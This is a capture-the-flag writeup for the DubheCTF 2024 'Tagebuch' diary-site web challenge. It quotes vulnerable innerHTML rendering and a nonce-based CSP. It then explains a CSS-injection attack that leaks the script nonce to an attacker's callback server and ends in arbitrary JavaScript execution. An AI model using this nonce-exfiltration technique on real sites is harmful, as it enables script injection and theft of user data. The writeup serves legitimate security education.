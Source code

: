 # Tagebuch

A simple diary-sharing site, but vulnerable. (DubheCTF 2024)

## 题面

白盒前端题，题目附件为本仓库。

### 题目描述

> Ich habe eine Tagebuch-Website von jemand anderem kopiert, wie könnte das ein Problem sein?

## Writeup

> [!TIP]
> 本题出题参考了 [0CTF/TCTF 2023 newdiary](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves) 和 [ASISCTF 2021 Lovely Nonce](https://ctftime.org/writeup/31077)

题目整体的攻击流程图（感谢 V&N 的 [@Cnily03](https://github.com/Cnily03) 师傅做的图）：

![图片](https://github.com/mix-archive/Tagebuch/assets/32300164/b1400d89-6208-4502-8745-83fecf6e69eb)

阅读源码，发现日志的查看和分享功能使用了`innerHTML`，存在 XSS 漏洞。但是由于 CSP 的限制，无法直接执行没有`nonce`的脚本。

```javascript
const param = new URLSearchParams(location.hash.slice(1));
const id = param.get('id');
if (id && /^[0-9a-f]+$/.test(id)) {
  fetch(`/read/${id}`)
    .then((data) => data.json())
    .then((data) => {
      const title = document.createElement('p');
      title.innerText = data.title;
      document.getElementById('title').appendChild(title);

      const content = document.createElement('p');
      content.innerHTML = data.content;
      document.getElementById('content').appendChild(content);
    });
  document.getElementById('share').href = `/share_diary/${id}`;
}
```

```typescript
app.engine('html', async (path, data, cb) =>
  ejs.renderFile(path, data, (err, html) => {
    if (err) return cb(err);
    const nonce = nonceStorage.getStore();
    if (nonce) {
      const cspMeta = `<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-${nonce}';">`;
      html = html.replace(/<head>/, `<head>\n${cspMeta}`);
    }
    cb(null, html);
  })
);
```

因为 CSP 并没有限制 CSS，所以我们可以通过 CSS 注入来获取到 nonce ，然后再利用 nonce 来执行脚本。

```css
script {
  display: block;
}
script[nonce^='{{:token:}}'] {
  background-image: url('{{:callback:}}');
}
```

同时由于 [share_read.js](./frontend/static/js/share_read.js) 中 `window.addEventListener("hashchange", load);` 的存在，我们可以通过修改 URL Hash 的方式来变更上传日志的 ID，但是不刷新页面，从而使 nonce 不变。

所以我们可以建立如下的攻击思路：

1. 使用 `<meta http-equiv="refresh" content="1; https://example.com">` 跳转到自己构造的页面

2. 在自己的页面中，构造一个 Iframe，将 src 指向分享的页面。同时构造一个 CSS，包含对 nonce 前缀的选择器，将其 background-image 指向自己的服务器。

3. 在获得 nonce 前缀后，构造一个新的 CSS，包含已知 nonce 前缀的选择器，更新 Iframe URL 中的 Hash 部分以在不刷新页面的情况下获取新的 nonce。

4. 重复第 2、3 步，直到获得完整的 nonce。

5. 使用完整的 nonce，便可以通过`<iframe srcdoc>`来执行任意 JavaScript 代码，从而获取 Flag。

本题目的完整攻击脚本见 [exp.py](./exploit/exp.py)
